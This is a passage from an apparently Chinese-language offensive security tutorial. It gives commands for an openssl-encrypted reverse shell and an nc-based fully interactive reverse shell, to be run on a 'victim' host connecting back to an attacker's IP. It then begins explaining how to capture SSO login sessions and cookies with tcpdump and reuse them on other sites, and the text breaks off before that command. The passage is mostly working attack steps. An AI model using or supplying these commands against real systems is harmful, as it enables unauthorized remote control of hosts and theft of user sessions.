 ```plain
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
```

服务端监听：

```css
openssl s_server -quiet -key key.pem -cert cert.pem -port 8888
```

受控端执行：

```ruby
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect yourip:yourport > /tmp/s; rm /tmp/s
```

## 完全交互式 shell

attack 端执行：

```plain
stty -echo raw; nc -lp 1337; stty sane
```

victim 端执行：

```plain
nc -c '/bin/bash -c "script /dev/null"' yourip 1337
```

现在 ctrl c 也不会退出：  
![image-20201211103704421](assets/1700701638-7766eba1fe95df69854ea6da4966536c.png)

# 登录态

现在越来越多的系统接入 SSO、零信任，用户友好度提升了，但是也伴随了大量风险，比如如果单点故障了怎么办。其他安全风险呢？如果我们拿下其中一台可信服务器的权限，是否也伴随着未做隔离的站点也沦为了能快速拿权限的攻击目标？

## tcpdump

tcpdump 是一款网络抓包的程序，在 SSO、零信任的场景中，我们可以利用它来获取用户的登录态、Cookie 等敏感信息，然后利用这些信息去登录其他未做隔离的站点。  
下面是抓取 http 数据包的命令示例：
